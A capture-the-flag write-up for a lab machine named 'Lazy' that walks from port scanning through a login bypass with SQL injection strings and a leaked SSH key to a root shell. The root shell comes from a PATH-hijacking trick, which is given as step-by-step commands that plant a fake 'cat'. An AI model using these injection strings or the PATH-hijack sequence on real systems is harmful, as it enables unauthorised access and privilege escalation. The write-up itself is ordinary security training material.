




# [cd ../](../index.md)

---

# Lazy writeup by M4t35Z

Name | Lazy
--- | ---
IP | 10.10.10.18
OS | Linux
Points | Medium(30)

---

# Recon
[nmap(fast)](recon/fast.txt)  
[nmap(big)](recon/big.txt)  

We have 2 ports open:  
`22 - ssh` and `80 - http`

## Web
Run ffuf  
`/classes` seems interesting! But it's nothing

The page is just a login, register page
- Maybe sqli?
Try some!
```
admin '-- -
admin       <spaces>
admin=
```

And `admin=` worked!  
  

And we have a [link](http://10.10.10.18/mysshkeywithnamemitsos) to the developer's `id_rsa`  
Just copy it -> save it -> use it!  

But wait wait wait we need a username too.  
Lets check the link again:  
*my ssh key with name `mitsos`*  
So we have a username `mitsos` and his id_rsa now we can log in!

# SSH

```
ssh -i id_rsa mitsos@10.10.10.18
```

And we got the flag from `user.txt`
```
d558e7924bdfe31266ec96b007dc63fc
```

## Privesc to `root`
We have a `peda` directory and a weird `backup` file  
Just run `./backup` -> it cats `/etc/shadow`  
Since we have peda on it we could run `gdb ./backup`  
Yaaaay a lil reversing challenge!  

`b main` means breaking the main fcn.  
`r` runs the program until breakpoint reached  
  
`si` step  
`x/s 0x80484d0` This returns `"cat /etc/shadow"`  
  

So we have a cmd that is executing `cat`!
- No absolute path!!  
We could make a new file named `cat` and place it somewhere before the actual `cat` in `$PATH` and this program will execute the first one!  


### Exploiting
Just make a file named `cat` and put inside what u want to be executed as root!
The most easy `/bin/sh`

But there is a problem!  
We cant write to default system paths  
BUT we can add paths!!!!
```
export PATH=`pwd`:$PATH
```
Now just run `./backup` and u can see this is a rootshell!!  

Cmds2run:
1. `cd ~`
2. `echo "/bin/sh" > cat`
3. `chmod +x cat`
4. ```
   export PATH=`pwd`:$PATH
   ```
5. `./backup`

# Got root and the root flag!
  
```
990b142c3cefd46a5e7d61f678d45515
```
